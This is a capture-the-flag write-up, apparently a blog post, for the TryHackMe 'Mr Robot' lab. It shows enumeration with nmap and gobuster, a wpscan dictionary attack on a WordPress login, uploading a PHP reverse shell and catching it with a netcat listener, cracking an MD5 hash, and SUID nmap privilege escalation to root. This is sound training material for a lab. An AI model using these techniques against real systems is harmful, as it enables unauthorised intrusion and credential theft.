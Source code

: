 ```yaml
---
layout: article
title: Mr Robot CTF
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://i.imgur.com/mp5JwKO.png
permalink: /writeups/mrrobot
tags:
- TryHackMe
---
```

![](https://i.imgur.com/mp5JwKO.png)

> Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

[Mr. Robot CTF - TryHackMe Room](https://tryhackme.com/room/mrrobot)

### What is key 1?

First of all, start with a port scan: `sudo nmap -sV 10.10.157.176`

- Open ports
```
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
```

Use `gobuster` for folder/file enumeration: `gobuster dir -u https://10.10.157.176 -k -w /usr/share/wordlists/dirb/big.txt`

In the following path `https://10.10.157.176/robots.txt` we found this text:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Download `https://10.10.157.176/fsocity.dic` file.
And the first key is in `https://10.10.157.176/key-1-of-3.txt`.

### What is key 2?

Surfing to the website we find a login page: `https://10.10.157.176/wp-login.php`. 
At the beginning of `fsocity.dic` there are some potentially usernames (mrrobot, Robot, Elliot).
I tried `Elliot` in the *fogot password* page `https://10.10.157.176/wp-login.php?action=lostpassword` and I received confirm of the correct username.

Use `wpscan` to perform a dictionary attack on login page.

`wpscan --disable-tls-checks --url https://10.10.157.176/wp-login.php -U Elliot -P /home/yami/Desktop/thm/fsocity.dic`

It will take a long time to find the correct password, because it is at the end of the wordlist of more than 800000 words.
Password is *ER28–0652*.

Now we have credentials to enter in the wordpress management page.

We are admin so we can upload a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) inside *Appearance --> Editor --> 404.php*.

On local machine use `nc -nvlp 9000` and execute via browser *https://ip-address/wp-content/themes/twentyfifteen/404.php*.

When we will be inside, we'll land such as *daemon* user. 

There is a chance to make the present shell more stable by using Python’s Pty module:

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/0.png.png)

Go to `/home/robot/`.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/1.png.png)

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/2.png.png)

We have to crack md5 hash to find *robot*'s password.
Use *John The Ripper*.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/3.png.png)

Now we have user password to catch the second key.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/4.png.png)

### What is key 3?

Now we have to perform privilege escalation.
We have to find some vulnerabilities in the kernel or in some files.

*For privilege escalation we can use either LinPEAS or LinEnum tools which will identify potential vectors for PE in the target server. In order to scan the system, we’ll need to transfer one of the scripts to the victim machine. For this purpose we can use SimpleHTTPServer Python module.*

But we also can run the following command which searches for all files having **SUID** bit set: `find / -perm -u=s -type f 2>/dev/null`

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/5.png.png)

TryHackMe hint suggested *nmap*. It is version 3.81 and it has an interactive mode in which nmap runs whit "sudo" privileges. (https://vk9-sec.com/nmap-privilege-escalation/).

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/6.png.png)

We can find third key under `/root`.


*References*:
- [https://infosecwriteups.com/tryhackme-mr-robot-machine-c33476f12c48](https://infosecwriteups.com/tryhackme-mr-robot-machine-c33476f12c48)
- [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- [https://crackstation.net/](https://crackstation.net/)
- [https://vk9-sec.com/nmap-privilege-escalation/](https://vk9-sec.com/nmap-privilege-escalation/)



